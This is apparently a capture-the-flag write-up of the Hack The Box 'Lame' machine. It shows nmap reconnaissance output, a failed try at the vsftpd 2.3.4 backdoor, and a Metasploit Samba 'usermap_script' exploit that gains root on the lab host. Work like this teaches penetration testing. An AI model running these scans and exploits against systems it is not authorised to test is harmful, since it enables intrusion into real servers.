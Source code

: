 # Summary
### 1. NMAP Scan
Typical NMAP scan, reveals `vsFTPd v2.3.4` on Port 21.

### 2. First Attack on FTP
Tried with metasploit modules, did not work.

### 3. Finding another attack vector
We do more NMAP scans and find `netbios-ssn Samba smbd 3.0.20-Debian`.

### 4. Second attack on Port 445 Samba
SearchSploit reveals it is susceptible to a `Username map script Command Execution` Metasploit module.
We run it and is able to compromise the system.

# Attack
## 1. NMAP Scan
`nmap -sC -v 10.10.10.3 -Pn`

## 2. First Attack on FTP
Shows Port 21 FTP Login allowed amongst other opened ports.

`nc 10.10.10.3 21` shows `vsFTPd v2.3.4`.
`searchsploit vsftpd 2.3.4` shows `Backdoor Command Execution`.
However, metasploit attacks etc didn't work.

Sources:
- https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/
- https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/
- https://metalkey.github.io/vsftpd-v234-backdoor-command-execution.html

## 3. Finding another attack vector
Our first NMAP scan was useless. Let's try more nmap scans!

`nmap --script nmap-vulners -sV 10.10.10.3 -Pn -v` but didn't turn out to be useful. (Source: https://securitytrails.com/blog/nmap-vulnerability-scan).

Let's try something else which turned out to be more useful.
`nmap -sC -sV -A -v 10.10.10.3 -Pn`
```
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 2h30m18s, deviation: 3h32m07s, median: 18s
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2020-11-26T07:45:56-05:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

```

## 4. Second attack on Port 445 Samba
Shows Samba smbd 3.0.20-Debian.
`searchsploit samba 3.0.20`.
```
hippoeug@kali:~$ searchsploit samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                      |  Path
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                              | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                    | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                               | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                       | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

There are a few interesting choices, but we are going for `Username map script Command Execution` Metasploit module.
Researching it, we find https://securitytrails.com/blog/nmap-vulnerability-scan.
Let's run the metasploit script `use exploit/multi/samba/usermap_script`.

Boom, we got root access and found the flags!
